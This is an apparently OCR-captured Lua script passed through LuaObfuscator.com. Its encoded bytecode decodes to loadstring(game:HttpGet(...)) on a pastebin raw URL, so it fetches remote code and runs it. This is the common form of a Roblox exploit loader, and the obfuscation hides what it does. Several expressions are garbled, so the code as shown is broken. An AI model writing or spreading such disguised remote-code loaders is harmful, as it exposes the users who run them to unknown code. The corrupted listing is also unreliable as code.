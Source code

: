 ____ ________ . _____ __
| | __ _______ __ \_ |/ _ __ ______ ____ _____ / | ___________ | | | | _ \ / | | __ \ _\ | / // \ \ / _ _ __
| || | // __ _/ | \ _\ \ | | | /_ \ _ / __ | | ( <> ) | / |__ _/(_ /_______ /___ /| |// >_ >____ /| _/|_|
/ / / / / / /
_Welcome to LuaObfuscator.com (Alpha 0.10.9) ~ Much Love, Ferib

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v84=0;local v85;while true do if (v84==0) then v85=v2(v0(v30,16));if v19 then local v123=0;local v124;while true do if (v123==1) then return v124;end if (v123==0) then v124=v5(v85,v19);v19=nil;v123=1;end end else return v85;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v86=(v31/((5 -(1 + 2))^(v32-(2 -1))))%(2^(((v33-(1 -0)) -(v32-(1 + 0))) + (2 -1))) ;return v86-(v86%1) ;else local v87=(621 -(555 + 64))^(v32-(932 -(857 + 74))) ;return (((v31%(v87 + v87))>=v87) and (569 -(367 + 201))) or ((1804 -(282 + 595)) -(214 + (2350 -(1523 + 114)))) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + 2 + 0 );v18=v18 + (2 -0) ;return (v36 * (1321 -(68 + 997))) + v35 ;end local function v23() local v37,v38,v39,v40=v1(v16,v18,v18 + (1273 -(226 + 1044)) );v18=v18 + ((974 -(892 + 65)) -13) ;return (v40 * (16777333 -(32 + 85))) + (v39 * (64226 + 1310)) + (v38 * (57 + 199)) + v37 ;end local function v24() local v41=v23();local v42=v23();local v43=1;local v44=(v20(v42,2 -1 ,(81 -45) -16 ) * ((3 -1)^(382 -(87 + 263)))) + v41 ;local v45=v20(v42,201 -(67 + 113) ,(40 -17) + 8 );local v46=((v20(v42,32 + 0 )==(2 -1)) and -(1 + 0)) or 1 ;if (v45==0) then if (v44==(0 -0)) then return v46 * ((2081 -1129) -((1593 -(368 + 423)) + 150)) ;else local v108=0 -0 ;while true do if (v108==(0 -0)) then v45=(3 -2) + 0 ;v43=997 -(915 + 82) ;break;end end end elseif (v45==2047) then return ((v44==0) and (v46 * (((1 + 1) -1)/0))) or (v46 * NaN) ;end return v8(v46,v45-(596 + 427) ) * (v43 + (v44/((2 -0)^(1239 -(1069 + 118))))) ;end local function v25(v47) local v48=18 -(10 + 8) ;local v49;local v50;while true do if (v48==1) then v49=v3(v16,v18,(v18 + v47) -(3 -2) );v18=v18 + v47 ;v48=(142 + 302) -(416 + 26) ;end if (v48==3) then return v6(v50);end if (v48==(0 -0)) then v49=nil;if not v47 then local v115=0 + 0 ;while true do if (v115==(0 -0)) then v47=v23();if (v47==0) then return "";end break;end end end v48=439 -(145 + 293) ;end if (v48==(432 -(37 + 7 + 386))) then v50={};for v109=1, #v49 do v50[v109]=v2(v1(v3(v49,v109,v109)));end v48=1489 -(998 + 488) ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v51=(function() return function(v88,v89,v90,v91,v92,v93,v94,v95) local v88=(function() return 0;end)();local v89=(function() return;end)();local v90=(function() return;end)();while true do if ( #"!"==v88) then if (v89== #" ") then v90=(function() return v91()=(0 + 0) ;end)();elseif (v89==(1 + 1)) then v90=(function() return v92();end)();elseif (v89= #"asd") then else v90=(function() return v93();end)();end v94[v95]=(function() return v90;end)();break;end if (v88==(202 -(14 + 188))) then local v117=(function() return 0;end)();local v118=(function() return;end)();while true do if (v117~=0) then else v118=(function() return 675 -(534 + 141) ;end)();while true do if (0==v118) then v89=(function() return v91();end)();v90=(function() return nil;end)();v118=(function() return 1 + 0 ;end)();end if (v118==(1 + 0)) then v88=(function() return #"!";end)();break;end end break;end end end end return v88,v89,v90,v91,v92,v93,v94,v95;end;end)();local v52=(function() return function(v96,v97,v98) local v99=(function() return 0;end)();while true do if (v99~=0) then else local v119=(function() return 0 + 0 ;end)();local v120=(function() return;end)();while true do if (v119==(0 -0)) then v120=(function() return 0;end)();while true do if ((0 -0)==v120) then local v165=(function() return 0;end)();while true do if (0~=v165) then else v96[v97-#">" ]=(function() return v98();end)();return v96,v97,v98;end end end end break;end end end end end;end)();local v53=(function() return {};end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {v53,v54,nil,v55};end)();local v57=(function() return v23();end)();local v58=(function() return {};end)();for v66= #">",v57 do FlatIdent_1076E,Type,Cons,v21,v24,v25,v58,v66=(function() return v51(FlatIdent_1076E,Type,Cons,v21,v24,v25,v58,v66);end)();end v56[ #"19("]=(function() return v21();end)();for v67= #"\",v23() do local v68=(function() return v21();end)();if (v20(v68, #",", #"[")==(0 + 0)) then local v103=(function() return 0 + 0 ;end)();local v104=(function() return;end)();local v105=(function() return;end)();local v106=(function() return;end)();local v107=(function() return;end)();while true do if (v103~=0) then else local v121=(function() return 0;end)();while true do if (v121==1) then v103=(function() return 397 -(115 + 281) ;end)();break;end if (v121==(0 -0)) then local v125=(function() return 0 + 0 ;end)();while true do if ((2 -1)==v125) then v121=(function() return 3 -2 ;end)();break;end if ((867 -(550 + 317))==v125) then v104=(function() return 0;end)();v105=(function() return nil;end)();v125=(function() return 1;end)();end end end end end if (v103==2) then while true do if (v104~= #"<") then else local v126=(function() return 0 -0 ;end)();while true do if ((0 -0)=v126) then else v107=(function() return {v22(),v22(),nil,nil};end)();if (v105==0) then local v174=(function() return 0;end)();local v175=(function() return;end)();while true do if (0==v174) then v175=(function() return 0;end)();while true do if (v175==(285 -(134 + 151))) then v107[ #"91("]=(function() return v22();end)();v107[ #".dev"]=(function() return v22();end)();break;end end break;end end elseif (v105== #"{") then v107[ #"asd"]=(function() return v23();end)();elseif (v105==(1667 -(970 + 695))) then v107[ #"xxx"]=(function() return v23() -(2^(30 -14)) ;end)();elseif (v105= #"-19") then else local v185=(function() return 1990 -(582 + 1408) ;end)();local v186=(function() return;end)();while true do if (v185==(0 -0)) then v186=(function() return 0;end)();while true do if (v186==(0 -0)) then v107[ #"91("]=(function() return v23() -(2^16) ;end)();v107[ #".com"]=(function() return v22();end)();break;end end break;end end end v126=(function() return 3 -2 ;end)();end if (v126==(1825 -(1195 + 629))) then v104=(function() return 2 -0 ;end)();break;end end end if (v104~=2) then else local v127=(function() return 241 -(187 + 54) ;end)();local v128=(function() return;end)();while true do if (v127~=0) then else v128=(function() return 780 -(162 + 618) ;end)();while true do if (0==v128) then if (v20(v106, #"[", #"\")== #",") then v107[2 + 0 ]=(function() return v58[v107[2 + 0 ]];end)();end if (v20(v106,2,3 -1 )== #"|") then v107[ #"xnx"]=(function() return v58[v107[ #"91("]];end)();end v128=(function() return 1 -0 ;end)();end if ((1 + 0)=v128) then else v104=(function() return #"asd";end)();break;end end break;end end end if ( #"xxx"=v104) then else if (v20(v106, #"asd", #"-19")== #"") then v107[ #".com"]=(function() return v58[v107[ #".dev"]];end)();end v53[v67]=(function() return v107;end)();break;end if (v104==(1636 -(1373 + 263))) then local v130=(function() return 1000 -(451 + 549) ;end)();local v131=(function() return;end)();while true do if (v130=0) then else v131=(function() return 0 + 0 ;end)();while true do if (v131~=0) then else v105=(function() return v20(v68,2, #"asd");end)();v106=(function() return v20(v68, #"xnxx",9 -3 );end)();v131=(function() return 1 -0 ;end)();end if (1==v131) then v104=(function() return #"|";end)();break;end end break;end end end end break;end if (1==v103) then local v122=(function() return 0;end)();while true do if (v122==0) then v106=(function() return nil;end)();v107=(function() return nil;end)();v122=(function() return 1385 -(746 + 638) ;end)();end if (v122==1) then v103=(function() return 1 + 1 ;end)();break;end end end end end end for v69= #"~",v23() do v54,v69,v28=(function() return v52(v54,v69,v28);end)();end return v56;end local function v29(v60,v61,v62) local v63=v60[1 -0 ];local v64=v60[343 -(218 + 123) ];local v65=v60[3];return function(...) local v70=v63;local v71=v64;local v72=v65;local v73=v27;local v74=1582 -(1535 + 46) ;local v75= -(1 + 0 + 0);local v76={};local v77={...};local v78=v12("#",...) -(2 -1) ;local v79={};local v80={};for v100=560 -(306 + 254) ,v78 do if ((v100>=v72) or (801>=4412)) then v76[v100-v72 ]=v77[v100 + 1 + 0 ];else v80[v100]=v77[v100 + ((2 + 1) -2) ];end end local v81=(v78-v72) + (1 -0) ;local v82;local v83;while true do v82=v70[v74];v83=v82[1 + 0 ];if (v83<=(1474 -(514 + 385 + 568))) then if ((v83<=(2 + (2 -1))) or (3151<1284)) then if (v83<=(2 -1)) then if (v83>(603 -((746 -478) + 335))) then v80[v82[67 -(30 + 35) ]]=v82[(655 -362) -(60 + 230) ];else v80[v82[(167 + 407) -(426 + 146) ]]={};end elseif (v83==2) then v80[v82[1259 -(1043 + 214) ]]={};else v80v82[1 + 1 ];end elseif ((v83<=(1461 -(282 + 1174))) or (1850==1529)) then if ((821<2123) and (v83>(815 -(569 + (1169 -927))))) then local v136=0 -0 ;local v137;local v138;local v139;local v140;while true do if ((902<2325) and (v136==(1214 -(323 + 889)))) then for v176=v137,v75 do v140=v140 + 1 ;v80[v176]=v138[v140];end break;end if (v136==(0 -0)) then v137=v82[1 + 1 ];v138,v139=v73(v80[v137](v13(v80,v137 + (1025 -(706 + 318)) ,v82[(2007 -(239 + 514)) -(254 + 467 + 530) ])));v136=1272 -(945 + 326) ;end if (v136==(2 -1)) then v75=(v139 + v137) -(1 + 0) ;v140=700 -(271 + 429) ;v136=7 -5 ;end end else do return;end end elseif (v83>(6 + 0)) then v80[v82[1331 -(797 + 532) ]]=v82[(1093 + 410) -(1408 + 92) ];else v80v82[1088 -(461 + 625) ];end elseif ((858<=2962) and (v83<=11)) then if (v83<=(859 -(20 + 830))) then if (v83==(1296 -(993 + 295))) then v80[v82[1 + 1 + 0 ]]=v62[v82[1174 -(418 + 753) ]];else do return;end end elseif ((v83>(4 + 6)) or (3946<1288)) then local v145=738 -(542 + 196) ;local v146;while true do if (v145==((0 -0) + 0)) then v146=v82[1 + 1 ];v80[v146]=v80[v146](v13(v80,v146 + 1 + 0 ,v75));break;end end else local v147=v82[531 -(406 + 123) ];v80[v147]=v80[v147](v13(v80,v147 + (1770 -(1749 + 20)) ,v75));end elseif (v83<=(33 -20)) then if (v83==((1205 -(373 + 829)) + 9)) then v80[v82[1324 -(1249 + 73) ]]=v62[v82[3]];else local v151=v82[1 + 1 ];local v152,v153=v73(v80[v151](v13(v80,v151 + (1146 -(466 + 679)) ,v82[6 -3 ])));v75=(v153 + v151) -(2 -1) ;local v154=1900 -(106 + 1794) ;for v167=v151,v75 do v154=v154 + (378 -(142 + 235)) ;v80[v167]=v152[v154];end end elseif (v83>(5 + 9)) then local v155=v82[1 + 1 ];local v156=v80[v82[(1711 -(476 + 255)) -(553 + 424) ]];v80[v155 + (1131 -(369 + 761)) + 0 ]=v156;v80[v155]=v156[v82[11 -7 ]];else local v160=v82[3 -1 ];local v161=v80[v82[(5 + 2) -4 ]];v80[v160 + 1 ]=v161;v80[v160]=v161[v82[118 -(4 + 110) ]];end v74=v74 + 1 + 0 ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F624D4268457A524A00094Q00027Q001208000100013Q001208000200023Q00200E000200020003001201000400044Q000D000200044Q000B00013Q00022Q00060001000100012Q00043Q00017Q00",v9(),...);
